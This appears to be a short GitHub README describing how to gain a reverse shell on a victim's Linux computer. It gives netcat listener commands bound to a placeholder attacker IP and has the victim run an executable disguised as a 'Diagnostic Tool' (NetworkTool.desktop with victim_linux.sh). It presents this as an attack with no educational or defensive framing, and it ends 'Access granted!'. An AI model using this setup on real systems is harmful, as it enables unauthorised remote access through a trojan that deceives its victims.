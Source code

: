 # Gain access to victim's computer with reverse shell

1. On **attacker's** computer (Linux with netcat installed), run the following if
    - victim is using linux (**our case**)
    ```shell
    $ sudo nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

    - ~~victim is using Windows~~
    ```shell
    $ stty raw -echo; (stty size; cat) | nc -lnvp PORT_NUMBER -s ATTACKERS_IP_ADDRESS
    ```

2. Wait for the victim to run the 'Diagnostic Tool' executable file: 
    - Linux:
        - [NetworkTool.desktop](NetworkTool.desktop) (executable), together with
        - [victim_linux.sh](victim_linux.sh)
        - Note: make the .desktop file executable by
            ```shell
            $ chmod +x NetworkTool.desktop 
            ```
    - ~~[Windows](Archive/victim_windows.py)~~

3. Boom! Access granted!
